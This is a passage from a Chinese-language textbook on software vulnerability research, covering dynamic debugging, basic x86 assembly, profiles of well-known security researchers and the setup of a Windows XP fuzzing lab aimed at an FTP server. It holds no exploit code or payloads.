

图1.2





#### 1.4.3 动态调试

既然有静态的逆向工程技术：反汇编和反编译，那么就会有“动态”的逆向工程技术。这里所谓的“动态”指的是让程序在计算机系统中保持运行。动态的逆向工程就是让程序在计算机系统中运行起来后进行的程序原理分析过程。

动态的逆向工程技术主要是指“动态调试”。“动态调试”是指让程序保持运行状态情况下，利用特定的指令对程序内部工作过程进行跟踪。

一般来说，“动态调试”的主要目的是为了能够检查出程序内部的一些运行错误。在这个过程中，“动态调试”技术可以一条汇编指令一条汇编指令地跟踪程序的运行过程，借此技术，我们就可以了解到程序的工作过程和原理。

“动态调试”的具体使用可以利用一些现有的工具软件，常见的工具软件有OllyICE、IDA、Windbg、SoftICE等。

### 1.5 初步了解汇编

为了帮助读者更好地学习本书中的内容，这一节中，我们将漏洞挖掘中涉及的一些基本汇编语言知识做一个介绍。读者在阅读后面章节中的内容时，可以参考本节内容来理解消化。汇编语言并不难，大可不必担心自己学不会。

本书重点涉及的内容都属于Windows系统平台下的漏洞挖掘。为此，我们将以Windows系统下的汇编作为主要介绍内容。

前面讲过，英特尔80386以上架构的CPU中通用寄存器总共有8个，这8个寄存器分别为：eax、ebx、ecx、edx、esp、ebp、esi、edi。这些寄存器在计算机指令当中，既可以为CPU提供内存地址，也可以直接当做运算数操作。

举个例子，指令“call [ecx]”，它的意思是调用ecx寄存器指向的内存地址。假设此刻ecx寄存器的数值等于0x11223344，那么CPU执行“call [ecx]”这条指令时，第一步是读取0x11223344这个内存地址中保存的数据，并且由于ecx寄存器是32位的，所以CPU要读取0x11223344这个内存中的四个字节的数据。假设0x11223344内存地址上保存的数据为0x55667788，那么当CPU读取到这个数据后，它将马上控制eip寄存器指向到0x55667788，即准备跳转到0x55667788这个地址上去执行指令。用一张图来表示这个过程，如图1.5所示。

通过前面的解释，在“call [ecx]”这条指令当中，ecx寄存器是作为一个内存地址被使用的，CPU通过ecx寄存器找到了最终要执行指令的内存地址，我们将CPU的这种寻址方式称之为“寄存器间接寻址”。

再举一个例子，指令“add eax, ebx”是一条加法指令。CPU在执行这条指令的时候，它是将eax寄存器中的数值与ebx寄存器中的数值相加后，将最终结果放入到eax寄存器当中。假设eax寄存器的数值为0x000001，ebx寄存器为0x000002，CPU就会将0x000001与0x000002相加，将相加结果0x000003存放到eax寄存器中。这一次，CPU不再将寄存器当做一个内存地址，而是当做参与运算的数值。

一般来说，寄存器被CPU当做内存地址的时候，主要是集中在一些跳转指令和控制指令上，如jmp、js、jz、jo、jp、jb、call等。

寄存器被CPU当做数值操作的时候，主要是集中在一些运算指令上，如add、sub、xchg、imul、inc、cmp等等。

当寄存器在指令中被方括号引用时，寄存器一定被当做内存地址使用了，如“jmp [ecx]”。



### 思考题

- 1. 计算机中的esp寄存器的作用是什么，在溢出漏洞中有什么作用？
- 2. 反汇编的具体概念，以及它与反编译之间的区别是什么？

### 答案

- 1. esp寄存器是栈空间指针寄存器，它始终指向程序栈空间的顶部。当程序发生溢出后，esp寄存器指向的内容往往就是溢出后的数据部分。
- 2. 反汇编是反编译的狭义概念，反汇编主要目的是将二进制数据转换成对应的汇编代码。

## 第2章 挖出第一个属于你的安全漏洞

通过上一章的学习，想来大家已经对本书所要接触的知识点有了一个大致了解，但是详细深入的学习还需要读者多多查阅相关资料。

“挖掘漏洞”这个词语对于大多数人来说，听起来是计算机安全专家才能做到的事情。而只是计算机安全爱好者的我们又怎么可能去发现什么安全漏洞，有点痴人说梦的尴尬与无奈。

其实，有这种思想不能怪大家，我们日常所接触、学习到的大多数安全知识都是在教如何安装杀毒软件或者防火墙软件去防范安全漏洞；如何给自己的操作系统打补丁来修补安全漏洞。即使谈及到安全漏洞本身，也只是含含糊糊地介绍一下某种安全漏洞的概念，最多给你分析一下安全漏洞的形成原因。这期间，漏洞是怎么被发现的，发现它的基本方法是什么，漏洞怎么会被恶意利用来实现攻击用户系统等等这些最为实际的内容却丝毫不见提及。即使有再大的学习兴趣，你都无法从这些所谓的“知识”中找到一个完整的研究安全漏洞的全过程，更不要说从何下手去挖掘安全漏洞。安全漏洞的研究方法就这样被弄得神神秘秘，让大多数人敬而远之了。

今天，我们将打破这层迷雾，向读者揭开软件安全漏洞的研究方法，手把手教会大家如何自己去挖掘软件中的安全漏洞，从挖掘到分析利用，全方位展示漏洞研究过程中的每一个细节。当然，这需要你有持之以恒的毅力与勇气，因为成功只垂青于有准备的人。

在这里，我们将马上带领大家开始自己动手发现第一个软件安全漏洞，目的就是想要告诉大家软件安全漏洞挖掘技术并不是遥不可及的神话。如果你不信，就随我一起踏上本次漏洞挖掘的学习之旅吧。

### 2.1 漏洞挖掘者的出现

既然我们是要学习如何挖掘漏洞，那么此刻我们就已经属于了一个群体——漏洞挖掘者。漏洞挖掘者是一个比较通俗的名称，它泛指那些从事发现应用程序或者Web应用程序安全漏洞的人们。这个神秘的群体在外人看来，都是由一些计算机方面的高手组成。他们精通计算机软件或者硬件方面的知识，懂得编程，明白计算机原理，对计算机安全漏洞有着独到的见解。这些人多数是以个人为主，少数部分是由几个人组成的团队。他们之间共享着一些鲜为人知的安全漏洞，这些安全漏洞有的往往能够带来巨大的破坏力。

而与此相对的则是被称之为“软件安全测试工程师”。这是现代计算机软件产业中不可缺少的一个组成部分。我们常常所说的软件开发员或者说软件编程员，这些人是从事软件基础代码编程的人员，软件架构师则是软件整体的设计者，而一个优秀的软件不仅仅取决于编写代码人员的素质、设计者的思维模式，还同样取决于软件本身的可靠性或者说是安全性。而决定这一部分的人就是软件安全测试工程师。

对于大型的软件来说，也就是那些用户数量比较大的软件，一旦软件出现安全漏洞，恶意攻击者就会利用这些漏洞来攻击软件的使用者，影响范围很大。软件开发商为了降低漏洞给用户带来的损失，需要在很短的时间内立即编写出新版本的软件或者开发出修补漏洞的补丁包程序。这将耗费巨大的人力和财力，而如果不能及时修补漏洞，用户就会对软件失去使用信心，甚至拒绝使用该软件，进而选择别的开发商生产的同类软件，这对于软件开发商来说更是一笔巨大的经济损失。因为失去了用户，软件就根本不可能有人去购买，开发商就会陷入到倒闭的尴尬境地。

某个国外著名的计算机软件公司曾经说过，如果利用软件安全测试在软件出厂前发现一个软件漏洞需要花费1万美元，那么在软件出厂后修补一个漏洞则需要10万美元！1万：10万这之间的差距可想而知，所以很多大型软件开发企业都在自己的软件产品开发和出厂前聘用专门的软件安全测试人员来对软件产品进行安全漏洞检查，防止软件出现重大安全漏洞。尤其是一些开发操作系统和安全杀毒软件之类的软件开发企业更是重视对软件的安全测试工作。微软就有着自己的安全测试团队来对自己的软件产品进行安全测试。

其实，这些从事软件安全测试的人员其工作性质大多数时候也就是进行漏洞挖掘，只不过他们是传统软件行业中的漏洞挖掘者，而非我们俗称的那些“民间”漏洞挖掘者。

你一定会问，为什么我这里要说软件安全测试工程师是传统软件行业中的漏洞挖掘者，这个传统软件行业是什么意思？其实，这是为了与专业负责计算机安全的公司做一个区分。传统软件行业中，软件开发企业利用软件安全测试来保证软件质量、防止安全隐患、降低软件对用户的使用风险。而专业的计算机安全公司则是真正意义上的安全漏洞研究机构。

专业的计算机安全公司有很多种，一种是我们常常听说的杀毒安全防护软件开发公司，例如全球知名的俄罗斯安全防护软件开发商卡巴斯基、美国的诺顿公司、中国的McAfee中国小组、瑞星、金山、江民、奇虎360等。还有一种是专门从事计算机安全研究和应急响应的公司，如国外知名的NGSSoftware公司、Immunity公司，国内知名的绿盟公司、启明星辰公司、天融信公司等。

在这些专业的计算机安全公司中，他们拥有很多专业的计算机安全研究人员，其中有一种被称为“脆弱性研究专家”的人，这些人是真正意义上的专业漏洞挖掘者。他们在应用程序或者Web应用程序的漏洞挖掘方面有着很高的造诣，他们发现的安全漏洞往往是世界知名的安全漏洞。这里列举几个这方面的技术牛人，供大家膜拜一下（排名不分先后）。

首先，列举国外的几位知名计算机安全专家。

David Litchfield是NGSSoftware公司的创始人和首席科学家，该公司致力于为英国国家提供安全解决方案。他本人的照片与出版的图书如图2.1所示。

David Litchfield被认为是世界上最权威的Oracle数据库安全专家，他发现了Oracle 9i Database Server中的一个重要的安全漏洞，并有力地反驳了Oracle“无懈可击”的市场宣传，从而赢得了极高的声誉。David Litchfield还是NGSSQuirrel（一种功能强大的数据库服务器漏洞检测及风险评估工具）的设计者。另外，他还是一位出色的演讲者，经常在政府安全机构和国际会议上演讲，也经常在Blackhat Security Briefings、Microsoft Bluehat和Microsoft TechEd上发表有关数据库安全方面的演说。



图2.1 David Litchfield出版的书籍

Dave Aitel是Immunity公司（www.immunitysec.com）的创始人，他在保密行业安全咨询公司和国家安全局积累了丰富的信息安全方面的经验，他所开发的工具SPIKE和SPIKE代理，被广泛认为是目前最好的黑盒应用评估工具。他本人的照片如图2.2所示。

Dave Aitel是全球安全圈内在漏洞发现和fuzz（一种漏洞挖掘技术，在本书的第5章中将会给大家介绍）方面最早期的专家之一。他的SPIKE Fuzzer Creation Suite已经被商业和政府机构用于测试网络协议超过五年之久。他是 *Hacker's Handbook* 以及 *the Shellcoder's Handbook* 的作者之一，是Immunity公司（一家迈阿密的信息安全公司）的创始人和现任CTO。Dave Aitel最早是国家安全机构的计算机研究员，之后在@stake（一家安全咨询公司）工作了几年，最终创建了Immunity公司。Immunity的产品CANVAS被用于渗透测试公司、政府机构、大型财务公司以及其它一些想要模拟信息攻击以保护基础设施的公司。

## 第2章 挖出第一个属于你的安全漏洞



图2.2 Dave Aitel的照片

Jack Koziol是芝加哥地区一家主要财政机构的信息安全长官，负责企业范围内的安全。先前，他在一家在线健康护理公司和网络药店的信息安全部门供职。Jack为信息安全杂志供稿，并发表了一些有关入侵检测的文章。他教授有关CISSP考试和“黑客及其防护”的课程。自从1998年以来，Jack在一些大的生产环境中构建、维护及管理Snort和其它的入侵检测系统。他也为一些专门的应用软件撰写Snort特征集。

与Dave Aitel一样，Kris Kaspersky也是 *the Shellcoder's Handbook* 的作者之一。Kris Kaspersky是黑客破译、反汇编与代码优化技术的专栏作家。他一直致力于研究安全与系统程序设计方面的问题，内容涉及编译器开发、优化技术、安全机制研究、实时操作系统内核的创建以及反病毒程序的设计等多个领域。他曾发现过一种利用英特尔处理器漏洞来远程攻击用户计算机的方法，这种漏洞可以让黑客成功攻击到安装任意操作系统的计算机，危害极大，这个事情曾经轰动全球安全界。

接下来看一看国内的（注意，这里很多技术专家的个人细节不像上面介绍的国外技术专家那样详细，因为涉及到一些隐私问题，所以大家不要误以为国内的这些技术专家不如国外的）。

- 袁哥（yuange），真名袁仁广，重庆市人，著名的IIS Unicode解析漏洞的发现者，曾就职于国内著名计算机安全公司——绿盟。
- WUSHI，微软多个重大安全漏洞发现者，技术实力相当于袁哥的水平。
- SWAN，一个精通安全漏洞挖掘各个方面的博士级人物，在漏洞挖掘与代码审计方面都很有建树。
- LIUDIEYU，曾经发现过多个微软Internet Explorer浏览器漏洞，甚至遭到微软公司的缉拿归案警告。
- ALER7和FUNNYWEI，这两位也是国内知名度很高的安全技术专家，原理方面十分精通，对漏洞形成的理论能够给出相当详细的分析结果，技术扎实度令人钦佩。
- 还有，FLASHSKY、wrang3、TK、watercloud、san、KKQQ、ISNO等，可以说国内的安全技术专家真是举不胜举。

由此看来，漏洞挖掘这个行业在计算机安全领域或者软件开发领域占有相当重要的地位，因为计算机安全问题中最为重要的一个环节就是安全漏洞的发现与利用。

当然，安全漏洞的影响不仅仅只是从计算机安全研究领域来说，有很多安全漏洞都会被某些人恶意利用，例如借助安全漏洞制造木马病毒程序，曾经使全球上万台计算机无法正常工作的蠕虫病毒“尼姆达”就是利用了微软操作系统当中的一个安全漏洞来实现网络传播和破坏的。现在比较流行的网页木马程序，也是借助浏览器或者系统组件的安全漏洞来实现通过浏览器向用户的系统安装木马病毒程序，从而实现远程控制用户的计算机，窃取用户隐私和商业秘密。

安全漏洞这个话题是一个永恒的话题，而作为这个话题的一个重要组成部分——应用程序安全漏洞挖掘，却又是重中之重。也许你早已羡慕那些安全技术牛人，早想学会自己挖掘计算机安全漏洞，早想让自己也成为一个令人羡慕的安全技术高手，脱离被人称为“菜鸟”的时代，那么就请开启你的计算机，拿起这本书，让我带领你一步一步走进软件安全漏洞挖掘这个神秘而又充满挑战的领域，去找到属于你的安全技术宝藏吧。

### 2.2 漏洞环境的介绍

首先，我们来介绍一下本次学习的软件环境。

- 操作系统：Windows XP SP2 32位版本
- 漏洞利用工具运行环境：ActivePython
- 漏洞挖掘软件：FTPFuzz
- 漏洞测试目标软件：GoodFTP Server
- 辅助软件：OllyICE 1.0

我们使用的操作系统是Windows XP SP2的32位版本，如图2.3所示。



> 小贴士：为了保证漏洞挖掘的顺利和有效，我们建议不要在当前系统下安装任何杀毒软件或者安全防护软件，因为这些软件会对安全研究过程造成一定的干扰。

进行漏洞挖掘的计算机硬件不需要很高的配置，基本的配置就足以胜任。不过，内存方面最好在512M以上。

安装ActivePython-2.6.1.1-win32-x86.msi程序到当前系统当中，该程序在本书附带的光盘中可以找到。如图2.4所示。



**ActivePython** 程序是Python语言的开发和运行环境。Python语言的使用非常简单，我们将在以后的章节中大量使用该语言来编写挖掘漏洞的测试脚本文档。安装过程非常简单，只需要按照默认选项，一直点击“Next”按钮直到安装完成。

至此，基本环境建立完毕，下面让我们来见识一下本次漏洞挖掘过程中需要使用的“战斗武器”。

### 2.3 初识FTPFuzz

本次我们进行漏洞挖掘的目标软件是一个FTP服务程序——GoodFTP Server。FTP服务程序是网络上最为常见的一种软件，它主要提供的就是利用FTP命令来实现文件信息的下载和上传。如图2.5所示。

